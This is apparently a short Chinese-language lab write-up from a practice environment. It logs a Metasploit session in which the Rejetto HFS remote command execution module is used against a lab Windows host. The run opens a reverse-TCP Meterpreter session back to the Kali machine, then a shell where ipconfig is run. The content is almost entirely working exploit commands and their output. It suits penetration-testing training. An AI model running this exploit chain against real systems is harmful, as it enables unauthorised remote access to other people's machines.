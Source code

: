 本实验涵盖从 Windows 目标枚举网络信息的过程。

## 复现视频内容
Target IP Address : 10.0.19.45

Kali Linux : 10.10.21.3

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use 0
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.19.45
RHOSTS => 10.0.19.45
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.21.3:4444 
[*] Using URL: http://0.0.0.0:8080/36ntYIb1GPmr5
[*] Local IP: http://10.10.21.3:8080/36ntYIb1GPmr5
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /36ntYIb1GPmr5
[*] Sending stage (180291 bytes) to 10.0.19.45
[*] Meterpreter session 1 opened (10.10.21.3:4444 -> 10.0.19.45:49290) at 2023-06-03 07:31:02 +0530
[!] Tried to delete %TEMP%\gyEyh.vbs, unknown result
[*] Server stopped.

meterpreter > 
```

```
meterpreter > shell
Process 2612 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\hfs>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::75d2:5be4:9a89:c5f4%12
   IPv4 Address. . . . . . . . . . . : 10.0.19.45
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.0.16.1

Tunnel adapter isatap.ap-southeast-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
```